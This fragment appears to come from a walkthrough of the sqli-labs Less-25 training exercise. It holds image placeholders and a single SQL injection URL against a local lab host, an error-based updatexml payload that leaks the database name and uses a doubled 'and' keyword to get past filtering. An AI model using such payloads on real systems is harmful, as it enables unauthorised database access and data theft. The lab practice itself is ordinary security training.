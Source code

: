 ![](file/image_WXLvc_08NN.png)

```sql
http://192.168.65.128/sqli-labs/Less-25/?id=1' 
anandd updatexml(1,concat(0x7e,database()),1) --+
```

![](file/image_h_PLFp4Kw9.png)
